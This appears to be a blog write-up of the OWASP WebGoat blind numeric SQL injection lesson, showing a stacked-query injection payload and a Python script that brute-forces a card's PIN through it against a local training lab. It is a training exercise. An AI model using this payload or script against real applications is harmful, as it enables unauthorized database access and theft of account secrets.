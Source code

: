 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (Numeric)"
date:   2017-01-30 06:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind Numeric SQL Injection
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- The goal is to find the value of the field pin in table pins for the row with the cc_number of 1111222233334444. The field is of type int, which is an integer.
- Put the discovered pin value in the form to pass the lesson.

First thing to do is throw some test input at the application and see what we get back:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_14/blind-canary-alive.jpg">

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_14/blind-canary-dead.jpg">

Alright, so we have some feedback for true and false values in our database. This is actually all we need to create a Blind SQL Injection attack. Our next step is to craft iterative requests to probe the database and find the user that has our desired criteria. We will be able to tell when we found our user when we receive a positive hit (output that looks like our first test).

First thing to do is craft the SQL statement that we will be sending to the server. Our initial request looked like this:

```
account_number=101&SUBMIT=Go%21
```

We need to build a SQL injection on top of this that will return true when we find the pin associated with the credit card number ```1111222233334444``` in the ```pins``` table. I came up with something that looked like this:

```
select * from pins where cc_number = 1111222233334444 and pin = xxx
```

Then we write out our full statement to bruteforce:

```
101;select * from pins where cc_number = 1111222233334444 and pin = xxx--
```

Alright, so we have our payload template for our bruteforce. Now we could use BurpSuite's Intruder tool to perform this bruteforce. Unfortunately the free version has a heavy rate-limit built into it between requests. So, why don't we repurpose our brute-forcing script from before for cracking the ```Forgot Password``` challenge into a Blind SQL injection tool? Here's what it looks like (remembering to update our session cookie):

{% highlight python %}
import sys
import requests

def main():

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for x in range(0, 10000):
		pin = str(x).zfill(4)
		print ("[*] Attempting PIN: {}".format(pin))
		pin_request = '101;select * from pins where cc_number = 1111222233334444 and pin = {}--'.format(pin)
		payload= {"account_number":pin_request,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=4&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! PIN is: {}".format(pin))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_14/pin-success.jpg">

And when we enter that PIN into the form:

<img src="{{ site.baseurl }}/images/webgoat/2017-01-30-webgoat_part_14/pin-defeated.jpg">

Brute-force to the rescue!